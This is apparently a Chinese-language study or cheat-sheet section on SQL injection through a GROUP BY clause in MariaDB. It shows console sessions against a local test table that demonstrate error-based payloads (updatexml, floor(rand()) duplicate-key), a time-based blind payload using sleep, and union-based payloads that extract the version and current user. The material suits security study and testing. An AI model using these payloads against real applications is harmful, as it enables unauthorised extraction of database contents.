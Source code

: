 #### Group By 注入

**报错注入**

```mysql
MariaDB [test]> select * from user where id>0 GROUP BY id and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~10.3.11-MariaDB~'

MariaDB [test]> select * from user where id>0 GROUP BY id and (select 1 from(select count(*),concat((select (select (SELECT @@version)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a);
ERROR 1062 (23000): Duplicate entry '10.3.11-MariaDB1' for key 'group_key'
```

**延时注入**

```mysql
MariaDB [test]> select * from user where id>0 GROUP BY id and if(mid(user(),1,1)='r',sleep(3),0);
+----+----------+--------+
| id | username | passwd |
+----+----------+--------+
|  1 | admin    | admin  |
+----+----------+--------+
1 row in set (9.150 sec)
```

**Union注入**

```mysql
MariaDB [test]> select * from user where id>0 GROUP BY id union select 1,2,3;
+----+----------+--------+
| id | username | passwd |
+----+----------+--------+
|  1 | admin    | admin  |
|  2 | hasaki   | hasaki |
|  3 | 666      | 2333   |
|  1 | 2        | 3      |
+----+----------+--------+
4 rows in set (0.000 sec)

MariaDB [test]> select * from user where id>0 GROUP BY id union select 1,2,3 limit 3,1;
+----+----------+--------+
| id | username | passwd |
+----+----------+--------+
|  1 | 2        | 3      |
+----+----------+--------+
1 row in set (0.000 sec)

MariaDB [test]> select * from user where id>0 GROUP BY id union select 1,user(),3 limit 3,1;
+----+----------------+--------+
| id | username       | passwd |
+----+----------------+--------+
|  1 | root@localhost | 3      |
+----+----------------+--------+
1 row in set (0.002 sec)
```
